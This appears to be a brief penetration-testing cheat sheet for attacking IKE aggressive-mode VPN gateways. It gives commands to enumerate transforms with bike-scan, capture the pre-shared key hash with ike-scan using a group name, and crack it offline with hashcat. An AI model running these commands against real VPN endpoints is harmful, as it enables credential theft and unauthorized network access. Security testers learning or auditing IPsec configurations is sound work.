 ## ike-scan

It will need a valid group name. See the links below for tools to retrieve group names and the possible attacks:

* https://github.com/SpiderLabs/ikeforce
* https://www.trustwave.com/Resources/SpiderLabs-Blog/Cracking-IKE-Mission-Improbable-(Part-1)/
* https://www.trustwave.com/Resources/SpiderLabs-Blog/Cracking-IKE-Mission-Improbable-(Part-2)/
* https://www.trustwave.com/Resources/SpiderLabs-Blog/Cracking-IKE-Mission-Improbable-(Part3)/


**1. List all accepted transform with bike-scan**

```
git clone https://github.com/yaap7/bike-scan
sudo ./bike-scan.sh -AM -R=c 192.168.0.1
```

**2. Extract PSK with ike-scan**

```
sudo ike-scan -r 1 -M -A --id=<groupName> -a 5,2,1,2 192.168.0.1 -P192.168.0.1_GroupName.psk 
```

**3. Crack the PSK hash with hashcat**

```
hashcat64.bin -O -w 4 -m 5400 -a 0 -r all.rules 192.168.0.1_GroupName.psk  wordlist.txt
```


**See also:**
* https://github.com/SpiderLabs/ikeforce


